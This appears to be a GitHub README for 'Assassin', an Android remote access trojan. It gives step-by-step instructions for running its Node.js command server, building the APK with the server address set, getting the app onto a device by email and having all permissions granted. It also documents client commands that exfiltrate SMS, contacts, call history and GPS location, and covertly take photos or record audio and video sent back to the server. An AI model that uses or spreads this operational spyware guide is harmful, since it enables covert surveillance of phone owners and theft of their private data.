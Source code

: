 # Assassin one of the  best Android RAT 
![assassin](https://cdn-std.dprcdn.net/files/acc_737120/k4ywpL)
---- 
- beta 1.0.0
- adapter android Lollipop-Pie
- commit issues to me 

# Construction
![assembleApk](https://cdn-std.dprcdn.net/files/acc_737120/1P2KVt)
# Features
- get Sms_List
- send Sms to destinationAddress
- get Calling_History
- get GPS
- get Contacts_List
---- 
#### something that u can do in background
- call someone  
- take a photo then send to server 
- record audio then send to server
- record video then send to server
</br>of course the duration decided by yourself

# Basement/Environment
- Gradle 
- JDK1.8
- AndroidSdk 
- node.js
- npm
# Usage
#### 1.Start up The Server
```
1. git clone git@github.com:honglvt/TalentRAT.git / or https
2. cd the project path
3. cd Server
4. npm install
5. npm start
```
now you can see the terminal show ASSASSIN
----
#### 2.Build the Android apk 
1. confrim that you have prepare the env for building the app
2. connect the android device  to ur PC
3. enable the develop mode on ur android device
4. edit the socket address with</br>
```
use ifconfig to get server IP Address
cd project
vim ./gradle.properties
edit the SERVER_ADDRESS that you got befroe
```
5. on some rom you should also  enable the adb to install the apk
6. if you are not a developer you can install the apk yourself
- post the .apk to your device such as email or other way
- then install the .apk on folder
----
#### 3.Intasll apk 
```
1. cd the project path 
2. ./assembleApk.sh debug    you can choose the arg debug/release
3. ./installNewestApk.sh 
4. open the apk on ur device
5. the most important is that  you should grant all of the permissions on the device
```
# Instruction to client
```
1. cd /Server
2. which node
3. vim ./assassin.js  replace #! /usr/local/bin/node with your own position
4. chmod 777 ./assassin.js
5. ./assassin.js -h
```
```
$ ./assassin.js -h                                                 ‹ruby-2.6.0›
Usage: assassin [options]

Options:
  -V, --version             output the version number
  -a,--assassin <assassin>  select a command post to the clients if you choose the shadow you should input the cmd -t to choose a type between pic/audio/video [sms,contacts,call,gps,shadow] (default: "sms")
  -C,--Clients              show every client info
  -d,--address <address>    input a phone num who you want to send a msg
  -m,--msg <msg>            you should write the msg content, if your command is sms
  -t,--type <type>          select a type between pic/audio/video and you should input the -l to choose the camera lens [pic,audio,video]
  -c,--client <client>      select a client to post the command
  -l,--lens <lens>          which camera lens that you want to open [0,1]
  -h, --help                output usage information
```
### exemples
| cmd        | -a     |
| ---------- | :-----------:  | 
| description| select the command between [sms,contacts,call,gps,shadow]  if you choose the shadow you should also use -t to choose a type between pic/audio/video     | 
|  example   | ‘’./assassin.js -a sms‘’  ‘’ ./assassin.js -a shadow -t pic ‘’   | 
|  result   | ERROR:you should input a type with -c to choose a client that you want to send cmd    | 
----

| cmd        | -C     |
| ---------- | :-----------:  | 
| description| show every client info    | 
|  example   | ‘’./assassin.js -C ‘’   | 
|  result   | {IMEI:9525238415950202,brand:Nokia,model:CAL-20,version:9.0}   | 
----

| cmd        | -c     |
| ---------- | :-----------:  | 
| description| select a client with its IMEI to post the command    | 
|  example   | ‘’./assassin.js -a sms -c  9525238415950202 ‘’   | 
|  result   | { command: 'send_sms_list', IMEI: '184859203' }  | 
----

# Prompt

- keep node server alive when you send a command
- cmd with ./assassin.js will return a Json data  you can do whatever with the response 
- if you want to get a pic or video you should type the cmd as follow:
  - ./assassin.js -a shadow -c 123456 -t pic -l 0
  - then you can find the pic has saved on the */project/Server/public/images/xxxx.jpeg'
  - the same with other shadow
- the duration in recording video or audio decided by yourself

# Screen Shot
### server
![server](https://cdn-std.dprcdn.net/files/acc_737120/tKCGxc)
---
### assembleApk
![assembleApk](https://cdn-std.dprcdn.net/files/acc_737120/BtN0Eb)
---
### installApk
![installApk](https://cdn-std.dprcdn.net/files/acc_737120/qzZ6yC)
---
### client connect to server
![connect](https://cdn-std.dprcdn.net/files/acc_737120/7AfwLH)
---
### executeCmd
![executeCmd](https://cdn-std.dprcdn.net/files/acc_737120/ot6gOq)
